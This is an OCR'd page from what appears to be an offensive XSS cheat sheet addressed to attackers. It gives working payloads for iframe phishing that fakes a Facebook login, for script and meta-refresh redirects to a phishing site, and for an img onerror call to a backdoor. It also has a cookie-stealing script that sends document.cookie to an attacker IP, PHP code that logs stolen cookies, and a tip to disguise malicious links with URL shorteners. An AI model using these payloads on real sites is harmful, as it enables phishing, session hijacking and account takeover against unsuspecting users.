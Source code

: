 $ 2.) Iframe Phishing: inject a javascript code containing an
$     iframe where your phishing site is embeeded.
$     Obviously it needs to look just like the target site.

<iframe src="http://192.168.21.130/Facebook – log in or sign up.html" height="100%" width="100%"></iframe>

$ (Note: height="100%" width="100%" means that the whole window is filled with
$ that iframe.)
$ The target site will spawn your phishing site in an Iframe, and the website user / victims won't see a
$ difference and log in (If they're are foolish enough).

 3.) Rediriction Phishing: Similar simple concept, inject a javascript rediriction
$     script that leads to your phishingsite, make sure it looks the same.

$ Example:

  <script>document.location.href="http://www.yourphishingsite.ru"</script>

  <META HTTP-EQUIV="refresh" CONTENT="0; URL="http://www.yorphishingsite.ru">

  <img src=x onerror=this.src="http://10.10.10.154/admin/backdoorchecker.php?cmd=dirheck>

4.) Cookie stealing: A feared XSS flaw.
Can be reflected or stored.

$	  reflected (remember that if an attack does not work, play arouund with different parameters):
		<script> document.write("<iframe src='http://10.10.14.18:8000/test.html?cookie="+document.cookie+"'></iframe>");</script>

$	  Stored:
$     Place this cookiestealer.php in your hoster, and then inject javascript
$     with your cookie stealer script embedded on your target website.

content of cookiestealer.php
```
<?php
$cookie = $HTTP_GET_VARS["cookie"];
$file = fopen('log.txt', 'a');
fwrite($file, $cookie . "nn");
fclose($file);
?>
```
$ Save it as cookiestealer.php and create a 'log.txt' and upload both files
$ on your own webspace, in the same directory and set "chmod 777".

$ Inject the following code in your target website:

    http://www.site.ru/google.php?search=<script>location.href = 'http://192.168.21.130/stealcookie.php?cookie='+document.cookie;</script>

$ Then the victim's cookie (target's website user who visited the url above) should
$ appear in the log.txt.
$ Now you simply need to insert the cookie (with e.g. live http headers firefox addon)
$ and use it.

#############################################################
#                                                           #
# PROTIP FOR EVERY XSS INJECTION:                           #
# use url shortener services such as tinyurl.com or bit.ly  #